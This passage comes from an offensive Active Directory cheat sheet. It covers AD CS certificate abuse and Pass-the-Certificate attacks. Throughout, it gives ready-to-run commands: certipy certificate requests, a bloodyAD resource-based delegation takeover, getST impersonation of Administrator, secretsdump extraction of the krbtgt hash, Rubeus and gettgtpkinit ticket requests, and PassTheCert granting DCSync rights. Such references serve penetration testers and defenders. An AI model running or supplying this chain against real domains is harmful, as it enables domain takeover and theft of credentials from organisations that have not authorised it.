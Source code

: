   ```ps1
  # certipy req 'domain.local/cve$:CVEPassword1234*@ADCS_IP' -template Machine -dc-ip DC_IP -ca discovered-CA
  certipy req 'lab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA
  ```
* Either use the pfx or set a RBCD on your machine account to takeover the domain
  ```ps1
  certipy auth -pfx ./dc.pfx -dc-ip 10.10.10.10

  openssl pkcs12 -in dc.pfx -out dc.pem -nodes
  bloodyAD -d lab.local  -c ":dc.pem" -u 'cve$' --host 10.10.10.10 add rbcd 'CRASHDC$' 'CVE$'
  getST.py -spn LDAP/CRASHDC.lab.local -impersonate Administrator -dc-ip 10.10.10.10 'lab.local/cve$:CVEPassword1234*'   
  secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
  ```


## Pass-The-Certificate

> Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

* Windows
  ```ps1
  # Information about a cert file
  certutil -v -dump admin.pfx

  # From a Base64 PFX
  Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

  # Grant DCSync rights to an user
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>
  # To restore
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
  ```
* Linux
  ```ps1
  # Base64-encoded PFX certificate (string) (password can be set)
  gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
  ​
  # PEM certificate (file) + PEM private key (file)
  gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # PFX certificate (file) + password (string, optionnal)
  gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # Using Certipy
  certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
  certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
  ```
